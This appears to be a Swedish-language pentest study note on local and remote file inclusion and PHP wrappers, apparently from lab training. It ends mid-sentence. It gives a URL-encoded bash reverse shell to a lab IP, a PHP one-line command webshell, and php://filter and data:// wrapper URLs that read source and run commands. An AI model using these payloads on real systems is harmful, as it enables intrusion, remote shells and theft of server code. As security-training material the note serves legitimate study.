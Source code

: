 
-------------------

### Local File Inclusion (LFI)
- Nyttjar lokala resurser, alternativt genererade (poisonade) loggar till att exekvera arbiträr kod
- Exempel: tryck in php-kod i user-agent som loggas i access.log: ![Pasted image 20230630161825.png](/img/user/IMAGES/Pasted%20image%2020230630161825.png)
- Exekvera sedan genom traversal directory och ?cmd=XXX

URL-enkodat reverse-shell (byt ut ip och port):
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
OBS:
- Om webshell inte funkar, testa olika php-funktioner:
	- system()
	- passthru()
	- exec()

---------------

### Remote File Inclusion (RFI)
- Ovanligare än LFI

- GET request hämtar malicious fil från python server lokalt genom en parameter i urlen
- ![Screenshot 2023-06-27 150453.png](/img/user/IMAGES/Screenshot%202023-06-27%20150453.png)
- Funkar bara om allow_url_fopen och allow_url_include är på i phpinfo()
- Kan använda loggfiler om inte kommer åt annat genom att generera logg och exekvera den

Innan kör webbshell kör phpinfo(); för att se versionering och disablade funktioner:
![Pasted image 20230627150709.png](/img/user/IMAGES/Pasted%20image%2020230627150709.png)

Köra kod på lokal maskin genom system i php:
![Pasted image 20230627150908.png](/img/user/IMAGES/Pasted%20image%2020230627150908.png)

Tillåt kommandon genom URLen:
```php
<?php echo system($_GET['cmd']); ?>
```

Bra shells:
https://github.com/swisskyrepo/PayloadsAllTheThings

------------

### PHP Wrappers

- Används för att kontrollera hur förfrågningar ska hanteras.
- Om ser att sida inte skriver ut innehållet av php fil utan exekverar server-side utan avslutad kod bra att testa
- Ex:![Pasted image 20230703133920.png](/img/user/IMAGES/Pasted%20image%2020230703133920.png)

- php://filter/resource=
	- Används för att läsa innehållet i en php-fil utan att lämna den ute eftersom den annars exekveras server-side
	- Kan base64encodea outputen med php://filter/convert.base64-encode/resource=
	- Exempel: 
```
http://mountaindeserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
- Om 'allow_url_include' är påslaget kan php inkluderas och exekveras genom en parameter i URLen:
	- data://text/plain,kod
	- Exempel:
```
http://mountaindeserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
```
- För att komma runt filter kan koden maskeras med base64 så här: